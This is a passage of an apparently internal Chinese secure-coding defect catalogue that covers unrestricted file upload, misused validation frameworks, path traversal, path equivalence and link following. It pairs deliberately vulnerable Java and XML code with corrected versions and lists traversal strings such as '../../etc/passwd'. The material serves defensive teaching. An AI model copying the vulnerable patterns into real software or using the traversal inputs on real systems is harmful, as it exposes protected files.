            uploadDir.mkdir();
        }
        
        // 验证上传目录是否在Web根目录之外
        Path uploadPath = uploadDir.toPath().toAbsolutePath().normalize();
        Path rootPath = new File(getServletContext().getRealPath("")).toPath().toAbsolutePath().normalize();
        if (!uploadPath.startsWith(rootPath)) {
            response.sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, "无效的上传目录");
            return;
        }
        
        // 保存文件到服务器
        try (InputStream fileContent = filePart.getInputStream()) {
            File file = new File(uploadDir, safeFileName);
            Files.copy(fileContent, file.toPath(), StandardCopyOption.REPLACE_EXISTING);
        }
        
        response.getWriter().println("文件上传成功: " + safeFileName);
    }
    
    private String getFileExtension(String fileName) {
        if (fileName == null || fileName.lastIndexOf(".") == -1) {
            return null;
        }
        return fileName.substring(fileName.lastIndexOf(".") + 1);
    }
    
    private String generateSafeFileName(String fileExtension) {
        return UUID.randomUUID().toString() + "." + fileExtension;
    }
}
```

**修复建议**
- 文件类型白名单：创建允许上传的文件扩展名白名单，只接受已知安全的文件类型。
- 文件大小限制：使用`@MultipartConfig`注解设置最大文件大小；在代码中再次验证文件大小。
- 安全文件名生成：使用UUID生成随机文件名，避免使用用户提供的原始文件名；防止目录遍历攻击和文件名冲突。
- 上传目录安全：确保上传目录位于Web根目录之外或配置为不可执行；验证上传路径的合法性。
- 输入验证：验证文件扩展名；验证文件内容与扩展名是否匹配（可选增强）。

#### CWD-1046-000 无限制上传具有危险类型的文件

#### CWD-1046-001 未限制文件大小导致磁盘耗尽

#### CWD-1046-002 未限制上传频率导致DDoS攻击

#### CWD-1046-003 【上传多文件时，仅校验单文件的大小限制，未限制上传文件总大小/数量】上传多文件时，仅校验单文件的大小限制，未限制上传文件总大小/数量

#### CWD-1046-004 【使用commons-fileupload组件进行文件上传】使用ServletFileUpload上传文件时，没有限制文件上传大小

#### CWD-1046-005 使用CommonsMultipartResolver实例进行文件上传操作时，未调用setMaxUploadSize限制上传大文件大小

#### CWD-1046-006 配置CommonsMultipartResolver的bean对象时，缺少maxUploadSize属性配置

#### CWD-1046-007 从MultipartFile/CommonsMultipartFile对象中获取文件流通过保存的方式上传时，字节流未统计并限制大小进行文件上传

#### CWD-1046-008 使用MultipartFile/CommonsMultipartFile的transferTo方法上传文件时，未进行任何上传文件大小的校验

#### CWD-1046-009 【使用传统的Servlet方式上传文件】使用Servlet Part类上传文件时未限制文件上传大小

#### CWD-1046-010 通过Request.getHeader("content-length")方式获取的值对上传文件的大小进行限制是不安全的

#### CWD-1046-011 通过HttpHeaders.getContentLength获取的值对上传文件的大小进行限制是不安全的

#### CWD-1046-012 【使用tomcat内置的fileupload组件进行文件上传】使用ServletFileUpload上传文件时，没有限制文件上传大小

**业界缺陷**

- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
---

# CWD-1047 验证框架使用不当

**别名: **验证框架的滥用；验证框架的不当使用

**描述**
该漏洞源于对输入验证框架的不当使用，导致攻击者可绕过客户端验证。产品未使用或错误使用了编程语言原生提供的输入验证框架（input validation framework），也未正确采用独立库中的验证机制。许多现代编程语言都为开发者提供了输入验证框架，旨在简化输入验证流程并减少人为错误。这些框架能自动根据预设规则校验所有输入数据，当检测到无效输入时，会将执行流程导向错误处理程序。虽然这些框架的错误使用（例如错误实现或完全缺失）本身不会直接导致漏洞，但若后续未执行正确的输入验证，则可能引发可被利用的安全隐患。此外，弃用现成的输入验证框架还会损害代码可维护性——后续开发人员可能无法识别那些替代验证框架的自定义校验逻辑。

**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：选择源语言提供的输入验证框架，或者公司提供的统一验证框架。

**编码**
- 策略1：合理使用提供的输入验证框架。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: WSF配置错误：URL未配置校验规则**
**语言: **JAVA

**描述**
在WSF框架中，所有URL必须配置校验规则

**反例**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<common-configs>
<!-- /* 【不符合】 allUrlCheck配置项为false; 所有的url都需要配置校验规则. */ -->
    <exclude-url allUrlCheck="false" failpath="index.html"  stateCode="500" errorHandler="com.huawei.security.validator.bean.ValidateErrorHandlerCommon">
        <url-pattern>/TestValidate/*/check/test</url-pattern>
        <url-pattern>/*/ws/**</url-pattern>
        <url-pattern>/ws/**</url-pattern>
        <url-pattern>/TestValidate/register/form/check/test</url-pattern>
        <url-pattern>/TestValidate/register/xml/**</url-pattern>
        <url-pattern>/portal/service/**</url-pattern>
        <url-pattern>/10/service/**</url-pattern>
        <url-pattern>/register/form/inludefile/urlWhiteList</url-pattern>
        <url-pattern>/**/*.xml</url-pattern>
        <url-pattern>/TestValidate/register/form/spring/ant</url-pattern>
    </exclude-url>
</common-configs>
```

**正例**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<common-configs>
<!-- /* 【GOOD】allUrlCheck配置为true */ -->
    <exclude-url allUrlCheck="true" failpath="index.html"  stateCode="500" errorHandler="com.huawei.security.validator.bean.ValidateErrorHandlerCommon">
        <url-pattern>/TestValidate/*/check/test</url-pattern>
        <url-pattern>/*/ws/**</url-pattern>
        <url-pattern>/ws/**</url-pattern>
        <url-pattern>/TestValidate/register/form/check/test</url-pattern>
        <url-pattern>/TestValidate/register/xml/**</url-pattern>
        <url-pattern>/portal/service/**</url-pattern>
        <url-pattern>/10/service/**</url-pattern>
        <url-pattern>/register/form/inludefile/urlWhiteList</url-pattern>
        <url-pattern>/**/*.xml</url-pattern>
        <url-pattern>/TestValidate/register/form/spring/ant</url-pattern>
    </exclude-url>
</common-configs>
```

**修复建议**
将WSF框架的`allUrlCheck`配置项配置为true

#### CWD-1047-000 验证框架使用不当

#### CWD-1047-001 【Struts框架】表单字段未配置验证器

#### CWD-1047-002 【Struts框架】未启用插件框架

#### CWD-1047-003 【Struts框架】Action Form 未验证

#### CWD-1047-004 【Struts框架】验证器被禁用

#### CWD-1047-005 【ASP.NET配置】未启用输入验证框架

#### CWD-1047-006 【ASP.NET配置】模型验证不当

#### CWD-1047-007 【WSF框架】URL未配置校验规则

#### CWD-1047-008 【WSF框架】dataPattern配置不当

#### CWD-1047-009 【WSF框架】allParameterCheck未设置为true

#### CWD-1047-010 【WebView组件配置错误】setSecurityMode设置不正确

#### CWD-1047-011 【supportBackup配置错误】未将supportBackup属性置空或者设为false

#### CWD-1047-012 【spring框架】SpringBoot中setUseTrailingSlashMatch配置不当

#### CWD-1047-013 【WSF框架】intercept-on-failed未设置为true

#### CWD-1047-014 【WSF框架】框架配置中未配置xml实体校验

#### CWD-1047-015 【WSF框架】对json解析时，如果json存在重复key时，存在校验规则被跳过

**业界缺陷**

- [CWE-1173: Improper Use of Validation Framework](https://cwe.mitre.org/data/definitions/1173.html)
---

# CWD-1059 路径遍历

**别名: **对受限目录的路径名的限制不当（“路径遍历”）

**描述**
路径遍历（系统至受限目录的路径名限制不当）是指系统未能正确将文件访问限制在指定目录范围内，导致攻击者可以通过构造特殊路径（如使用 `../` 等回溯序列）访问受限目录外的文件或目录。


- 路径遍历的目的：通过路径操作指向其他文件对象
产品使用外部输入来构造一个预期指向受限父目录下的文件或目录的路径名，但产品未能正确过滤路径名中的特殊元素，导致该路径名可能解析到受限目录之外的位置。


1. 许多文件操作本应在受限目录内执行。通过使用特殊元素（如 `..` 和路径分隔符 `/` ），攻击者可以突破受限区域，访问系统中其他位置的文件或目录。2. 相对路径遍历：其中最常见的特殊元素是 `../` 序列——在多数现代操作系统中，该符号会被解析为当前目录的父级目录。3. 绝对路径遍历：路径遍历同样涵盖使用绝对路径名（如 `/usr/local/bin` ）访问预期外文件的情况。
**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：防火墙
  有效性：中等
  使用可以检测针对此弱点的攻击的应用防火墙。在代码无法修复的情况下（因为它被第三方控制），在应用更全面的软件保障措施时作为紧急预防措施，或提供纵深防御时，它可能是有益的。
- 策略2：库或框架
  使用经过审核的库或框架，不允许这种弱点发生，或者提供更容易避免这种弱点的构造。
- 策略3：在服务端执行安全性检查
  在客户端和服务器端都执行安全性检查。如果仅在客户端执行安全性检查，攻击者可以通过在执行检查后修改值来绕过客户端检查，或者通过更改客户端以完全删除客户端检查。然后，这些修改后的值将被提交到服务器。
- 策略4：通过转换执行
  当可接受对象的集合（如文件名或URL）有限或已知时，创建从一组固定输入值（如数字ID）到实际文件名或URL的映射，并拒绝所有其他输入。
- 策略5：减少攻击面
  有效性：有限
  了解不受信任的输入可能进入您的软件的所有潜在领域：参数或参数、Cookie、从网络读取的任何内容、环境变量、反向DNS查找、查询结果、请求标头、URL组件、电子邮件、文件、文件名、数据库以及向应用程序提供数据的任何外部系统。请记住，这些输入可能通过API调用间接获得。
- 策略6：沙箱
  有效性：有限
  在类似的沙箱环境中运行代码，在进程和操作系统之间强制实施严格的边界。这可以有效地限制特定目录中可以访问哪些文件，或者软件可以执行哪些命令。操作系统级的包括`Unix chroot`、`AppArmor`和`SELinux`。一般来说，托管代码可以提供一些保护。例如`Java SecurityManager`中的`java.io.FilePermission`允许软件指定对文件操作的限制。

**编码**
- 策略1：输入验证 `推荐`
  - 在验证输入之前，应将输入解码并规范化为应用程序当前的内部表示:
    ```java
    // Java示例
    String canonicalPath = new File(userInput).getCanonicalPath();
    ```
    - C语言中 `realpath()`
    - Java中 `getCanonicalPath()`
    - ASP.NET中 `GetFullPath()`
    - Perl中 `realpath()`或`abs_path()`
    - PHP中 `realpath()`
  1. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  2. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  3. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
- 策略2：日志和错误消息管理
  1. 确保错误消息只包含对目标受众有用的最小细节，而不是其他人。这些消息需要在过于晦涩（可能会让用户感到困惑）和过于详细（可能会透露出超出预期的信息）之间取得平衡。消息不应显示用于确定错误的方法。攻击者可以利用详细信息来完善或优化其原始攻击，从而增加其成功的机会。
  2. 如果必须详细地捕获错误，请将其记录在日志消息中，但请考虑如果攻击者可以查看日志消息可能会发生什么情况。高度敏感的信息（如密码）不应该保存到日志文件中。
  3. 避免不一致的消息传递，以免意外地向攻击者提示内部状态，例如用户帐户是否存在。
  4. 在路径遍历的上下文中，泄漏路径信息的错误消息可以帮助攻击者精心制作适当的攻击字符串，以便在文件系统层次结构中移动。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 路径遍历**
**语言: **JAVA

**描述**
代码尝试通过根据允许列表检查给定的输入路径来验证它，并在验证后删除给定的文件。在这种特定情况下，如果路径以字符串 `/safe_dir/` 开头，则认为该路径是有效的。

**案例分析**
攻击者可以提供如下输入:
- 符号链接攻击（如`/safe_dir/malicious_link`指向`/etc/passwd`）
- 路径规范化绕过（如`/safe_dir/../etc/passwd`）
- 大小写绕过（如`/Safe_Dir/`）

**反例**
```java
public class UnSafeFileDeletion {
   public void deleteFileSafely() {
        String path = getInputPath();
        if (path == null || path.isEmpty()) {
            throw new SecurityException("Path cannot be null or empty");
        }

        try {
            if (path.startsWith("/safe_dir/")){
                File file = new File(path);
                // 执行删除操作
                file.delete();
            }
        } catch (IOException e) {
            throw new SecurityException("Invalid file path", e);
        }
   }
}
```

**正例**
```java
import java.io.File;
import java.io.IOException;
import java.nio.file.Path;
import java.nio.file.Paths;

public class SafeFileDeletion {
    // 定义安全目录的规范路径
    private static final String SAFE_DIR = "/safe_dir/";
    private static final Path SAFE_DIR_PATH;
    
    static {
        try {
            // 获取安全目录的规范路径
            SAFE_DIR_PATH = Paths.get(SAFE_DIR).toRealPath();
        } catch (IOException e) {
            throw new RuntimeException("Failed to initialize safe directory path", e);
        }
    }

    public void deleteFileSafely() {
        String path = getInputPath();
        if (path == null || path.isEmpty()) {
            throw new SecurityException("Path cannot be null or empty");
        }

        try {
            // 转换为规范路径
            Path inputPath = Paths.get(path).toRealPath();
            
            // 验证路径是否在安全目录下
            if (!inputPath.startsWith(SAFE_DIR_PATH)) {
                throw new SecurityException("Attempt to access file outside safe directory");
            }

            // 验证路径是否确实是文件（不是符号链接）
            if (!inputPath.toFile().isFile()) {
                throw new SecurityException("Path is not a regular file");
            }

            // 执行删除操作
            if (!inputPath.toFile().delete()) {
                throw new SecurityException("Failed to delete file");
            }
        } catch (IOException e) {
            throw new SecurityException("Invalid file path", e);
        }
    }

    private String getInputPath() {
        // 获取输入路径的方法实现
        return "";
    }
}
```

**修复建议**
- 路径规范化：使用`toRealPath()`方法解析符号链接并规范化路径；处理路径中的`.`和`..`等相对路径引用。
- 目录限制：预先计算安全目录的规范路径；使用`startsWith()`检查输入路径是否确实位于安全目录下。
- 输入验证：检查输入路径是否为null或空字符串；验证路径指向的是常规文件而非目录或特殊文件。
- 符号链接防护：`toRealPath()`会自动解析符号链接；显式检查目标是否为常规文件。

#### CWD-1059-000 路径遍历

#### CWD-1059-001 【相对路径遍历】'../filedir'

#### CWD-1059-002 【相对路径遍历】'..\filedir'

#### CWD-1059-003 【相对路径遍历】'/../filedir'

#### CWD-1059-004 【相对路径遍历】'\..\filename'

#### CWD-1059-005 【相对路径遍历】'/dir/../filename'

#### CWD-1059-006 【相对路径遍历】'\dir\..\filename'

#### CWD-1059-007 【相对路径遍历】'dir/../../filename'

#### CWD-1059-008 【相对路径遍历】'dir\..\..\filename'

#### CWD-1059-009 【相对路径遍历】'...'（三点）

#### CWD-1059-010 【相对路径遍历】'....'（多个点）

#### CWD-1059-011 【相对路径遍历】'....//'

#### CWD-1059-012 【相对路径遍历】'.../...//'

#### CWD-1059-013 【绝对路径遍历】'/absolute/pathname/here'

#### CWD-1059-014 【绝对路径遍历】'\absolute\pathname\here'

#### CWD-1059-015 【绝对路径遍历】'C:dirname'

#### CWD-1059-016 【绝对路径遍历】'\\UNC\share\name\' (Windows UNC Share)

#### CWD-1059-017 【使用ApacheCommons-Io的FileUtils类操作文件时产生路径遍历】使用未经校验的不可信数据(例如文件名)动态构造拼接文件路径

#### CWD-1059-018 使用ApacheCommons-Io的FileUtils类操作文件时仅考虑../的路径穿越问题，未考虑通过绝对路径直接访问任意文件的问题

#### CWD-1059-019 【使用ApacheCommons-Io的FileUtils类操作文件时产生路径遍历】使用未经校验的不可信数据直接作为路径字符串，未进行任何路径合法性校验

#### CWD-1059-020 【使用ApacheHadoop的FileUtil类操作文件时产生路径遍历】使用未经校验的不可信数据(例如文件名)动态构造拼接文件路径

#### CWD-1059-021 使用ApacheHadoop的FileUtil类操作文件时仅考虑../的路径穿越问题，未考虑通过绝对路径直接访问任意文件的问题

#### CWD-1059-022 【使用ApacheHadoop的FileUtil类操作文件时产生路径遍历】使用未经校验的不可信数据直接作为路径字符串，未进行任何路径合法性校验

#### CWD-1059-023 【使用Hutool类相关方法操作文件时产生路径遍历】使用未经校验的不可信数据(例如文件名)动态构造拼接文件路径

#### CWD-1059-024 【使用Hutool类相关方法操作文件时产生路径遍历】使用未经校验的不可信数据直接作为路径字符串，仅考虑../的路径穿越问题，未考虑通过绝对路径直接访问任意文件的问题

#### CWD-1059-025 【使用Hutool类相关方法操作文件时产生路径遍历】使用未经校验的不可信数据直接作为路径字符串，未进行任何路径合法性校验

#### CWD-1059-026 【使用Java.io包中的相关文件(流)操作类访问文件时产生路径遍历】不当使用getAbsolutePath、getPath获取的值作为标准化的路径进行校验

#### CWD-1059-027 【使用Java.io包中的相关文件(流)操作类访问文件时产生路径遍历】使用未经校验的不可信数据(例如文件名)动态构造拼接文件路径

#### CWD-1059-028 使用Java.io包中的相关文件(流)操作类访问文件时仅考虑../的路径穿越问题，未考虑通过绝对路径直接访问任意文件的问题

#### CWD-1059-029 【使用Java.io包中的相关文件(流)操作类访问文件时产生路径遍历】使用未经校验的不可信数据直接作为路径字符串，未进行任何路径合法性校验

#### CWD-1059-030 通过java.nio.file.Paths操作文件时，使用未经校验的不可信数据(例如文件名)动态构造拼接文件路径

#### CWD-1059-031 通过java.nio.file.Paths操作文件时，仅考虑../的路径穿越问题，未考虑通过绝对路径直接访问任意文件的问题

#### CWD-1059-032 通过java.nio.file.Paths操作文件时，使用未经校验的不可信数据直接作为路径字符串，未进行任何路径合法性校验

#### CWD-1059-033 通过java.nio.file.Path操作文件时，使用未经校验的不可信数据(例如上传文件的文件名)动态构造拼接文件路径

#### CWD-1059-034 通过java.nio.file.Path操作文件时，使用未经校验的不可信数据直接作为路径字符串，仅考虑../的路径穿越问题，未考虑通过绝对路径直接访问任意文件的问题

#### CWD-1059-035 通过java.nio.file.Path操作文件时，使用未经校验的不可信数据直接作为路径字符串，未进行任何路径合法性校验

#### CWD-1059-036 【使用Java.nio包中的相关文件(流)操作类访问文件时产生路径遍历】通过Path.resolve方式获取基于父路径的文件时，不正确的校验/操作导致绕过父路径限制的问题

#### CWD-1059-037 【nginx配置不当导致路径穿越问题】nginx配置的location块中，try_files直接将$args内容拼接到访问的目标，导致路径穿越

#### CWD-1059-038 【nginx配置不当导致路径穿越问题】nginx配置中location的alias启用正则匹配时，适配的路径不当，捕获的内容拼接到/路径后，导致路径穿越

#### CWD-1059-039 【nginx配置不当导致路径穿越问题】nginx配置中location的rewrite配置使用了正则提取路径不当拼接导致路径穿越

#### CWD-1059-040 【nginx配置不当导致路径穿越问题】nginx配置中location没有以/结尾，而alias以/结尾，导致路径穿越

#### CWD-1059-041 【nginx配置不当导致路径穿越问题】nginx配置中location以/结尾，而alias没有以/结尾，导致路径穿越

**业界缺陷**

- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')](https://cwe.mitre.org/data/definitions/22.html)
---

# CWD-1062 路径等价解析不当

**别名: **路径等效性问题；路径等效性解析失败

**描述**
路径等价是指系统在处理不同形式的路径表示时存在逻辑缺陷，未能正确识别其指向同一资源的安全漏洞。利用文件/目录命名中的特殊字符，通过特定处理手法使同一文件对象产生多个等效名称的行为。


- 路径等价的目的：通过生成不完整的文件名/路径表示形式来绕过访问控制- 典型场景：

1. 系统未能规范化处理路径中的 `./` 、`../` 等相对符号2. 对URL编码（如 `%2e%2e%2f` 代替 `../` ）识别不全3. 大小写混淆（Windows系统）4. 尾部空格/点号处理不当（如 `file.txt...` ）
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：输入验证 `推荐`
  - 在验证输入之前，应将输入解码并规范化为应用程序当前的内部表示:
    ```java
    // Java示例
    String canonicalPath = new File(userInput).getCanonicalPath();
    ```
    - C语言中 `realpath()`
    - Java中 `getCanonicalPath()`
    - ASP.NET中 `GetFullPath()`
    - Perl中 `realpath()`或`abs_path()`
    - PHP中 `realpath()`
  1. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  2. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  3. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
- 策略2：输出编码
  1. 使用并指定可由读取输出的下游组件处理的输出编码。常见的编码包括ISO-8859-1、UTF-8。当未指定编码时，下游组件可能会选择不同的编码，要么通过假设默认编码，要么自动推断使用的是哪种编码，这可能是错误的。当编码不一致时，下游组件可能会将某些字符或字节序列视为特殊，即使它们在原始编码中并不特殊。然后，攻击者可能能够利用这种差异进行注入攻击；他们甚至可能能够绕过保护机制，假设原始编码也被下游组件使用。
  2. 在网页中经常出现输出编码不一致的问题。如果HTTP标头中没有指定编码，Web浏览器通常会猜测使用的是哪一种编码。这可能会使浏览器更容易受到XSS攻击。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 路径等效性解析不当**
**语言: **JAVA

**描述**
路径等价（Path Equivalence）问题发生在应用程序未能正确处理不同形式但指向同一文件系统位置的路径时。攻击者可以利用路径标准化不足的漏洞绕过安全检查，访问受限文件或目录。

**案例分析**
- 路径拼接问题：直接使用字符串拼接构造文件路径，未进行规范化处理。
- 路径遍历漏洞：攻击者可以使用`../`序列访问配置目录外的文件。
- 无效的安全检查：`startsWith()`检查可以被绕过，因为`/app/config/../../etc/passwd`仍然以`/app/config/`开头。
- 符号链接问题：代码没有处理符号链接，可能跟随链接访问非预期文件。
- 大小写敏感问题：在某些操作系统上，路径大小写不敏感，可能导致检查绕过。

**反例**
```java
import java.io.*;

public class ConfigLoader {
    private static final String CONFIG_DIR = "/app/config/";

    public void loadConfig(String configName) {
        try {
            // 直接拼接路径，未做规范化处理
            String filePath = CONFIG_DIR + configName;
            
            // 检查路径是否在配置目录下（不安全的检查方式）
            if (!filePath.startsWith(CONFIG_DIR)) {
                throw new SecurityException("Access denied: File not in config directory");
            }
            
            File configFile = new File(filePath);
            if (configFile.exists()) {
                // 读取配置文件内容
                BufferedReader reader = new BufferedReader(new FileReader(configFile));
                String line;
                while ((line = reader.readLine()) != null) {
                    Logger.info(line);
                }
                reader.close();
            }
        } catch (Exception e) {
            // ...日志处理
        }
    }

    public static void main(String[] args) {
        ConfigLoader loader = new ConfigLoader();
        // 攻击者可以传入包含../的路径
        loader.loadConfig("../../etc/passwd");  // 绕过目录检查
    }
}
```

**正例**
```java
import java.io.*;
import java.nio.file.*;

public class SecureConfigLoader {
    private static final String CONFIG_DIR = "/app/config/";

    public void loadConfig(String configName) {
        try {
            // 获取规范化的基础配置目录路径
            Path baseDir = Paths.get(CONFIG_DIR).toAbsolutePath().normalize();
            
            // 解析并规范化用户提供的路径
            Path resolvedPath = baseDir.resolve(configName).normalize();
            
            // 验证最终路径是否仍在配置目录下
            if (!resolvedPath.startsWith(baseDir)) {
                throw new SecurityException("Access denied: Attempt to access outside config directory");
            }
            
            // 检查符号链接
            if (Files.isSymbolicLink(resolvedPath)) {
                throw new SecurityException("Symbolic links are not allowed");
            }
            
            // 检查是否为常规文件
            if (!Files.isRegularFile(resolvedPath)) {
                throw new SecurityException("Only regular files are allowed");
            }
            
            // 安全读取文件内容
            try (BufferedReader reader = Files.newBufferedReader(resolvedPath)) {
                String line;
                while ((line = reader.readLine()) != null) {
                    Logger.info(line);
                }
            }
        } catch (SecurityException e) {
            Logger.error("Security error: " + e.getMessage());
        } catch (IOException e) {
            Logger.error("IO error: " + e.getMessage());
        }
    }

    public static void main(String[] args) {
        SecureConfigLoader loader = new SecureConfigLoader();
        // 尝试攻击将被阻止
        loader.loadConfig("../../etc/passwd");  // 抛出SecurityException
    }
}
```

**修复建议**
- 路径规范化：使用`normalize()`方法消除路径中的`.`和`..`等相对引用。
- 绝对路径转换：使用`toAbsolutePath()`确保路径比较基于绝对路径。
- 安全路径解析：先规范化基础目录，再解析相对路径，最后再次规范化。
- 符号链接检查：明确检查并拒绝符号链接，除非业务确实需要。
- 文件类型验证：确保只处理常规文件。

#### CWD-1062-000 路径等价解析不当

#### CWD-1062-001 路径中存在末尾带点（'filedir.'）形式的路径输入

#### CWD-1062-002 路径中存在多重末尾点（'filedir....'）形式的路径输入

#### CWD-1062-003 路径中存在包含内部点（file.ordir'）形式的路径输入

#### CWD-1062-004 路径中存在包含多重内部点（'file...dir'）形式的路径输入

#### CWD-1062-005 路径中存在包含尾部空格（'filedir '）形式的路径输入

#### CWD-1062-006 路径中存在前置空格（ ' filedir'）形式的路径输入

#### CWD-1062-007 路径中存在包含内部空格（ 'file name'）形式的路径输入

#### CWD-1062-008 路径中存在尾部斜杠（'filename/'）形式的路径输入

#### CWD-1062-009 路径中存在多个前导斜杠（ '//multiple/leading/slash'）形式的路径输入

#### CWD-1062-010 路径中存在多个内部斜杠（ '/multiple//internal/slash'）形式的路径输入

#### CWD-1062-011 路径中存在多个尾随斜杠（'/multiple/trailing/slash//'）形式的路径输入

#### CWD-1062-012 路径中存在多个内部反斜杠（'\multiple\\internal\backslash'）形式的路径输入

#### CWD-1062-013 路径中存在尾随反斜杠（ 'filedir\' ）形式的路径输入

#### CWD-1062-014 路径中存在单个点目录（ '/./' ）形式的路径输入

#### CWD-1062-015 路径中存在通配符（'filedir*'）形式的路径输入

#### CWD-1062-016 路径中存在（'fakedir/../realdir/filename'）形式的路径输入

#### CWD-1062-017 路径中存在Windows 8.3（文件名8个字符，扩展名3个字符）形式的短文件名

**业界缺陷**

- [CWE-41: Improper Resolution of Path Equivalence](https://cwe.mitre.org/data/definitions/41.html)
---

# CWD-1063 文件访问前链接解析不当（链接跟随）

**别名: **链接跟随；文件访问前链接解析失败（“链接跟随”）；Zip 路径遍历漏洞

**描述**
产品尝试基于文件名访问文件，但未能有效阻止该文件名指向某个链接或快捷方式，从而可能访问到非预期的资源。


1. 攻击者可能能够遍历文件系统到非预期的位置，并读取或覆盖意外文件的内容。如果这些文件用于安全机制，则攻击者可能能够绕过该机制。2. Windows简单快捷方式（有时称为软链接）可以被远程利用，因为 `.LNK` 文件可以像普通文件一样上传。这样就可以实现远程执行。
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：权限分离
  在为软件系统中的实体分配访问权限时，应遵循最小权限原则。拒绝访问文件可以防止攻击者用指向敏感文件的链接替换该文件。确保系统中的良好划分，以提供可信任的受保护区域。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
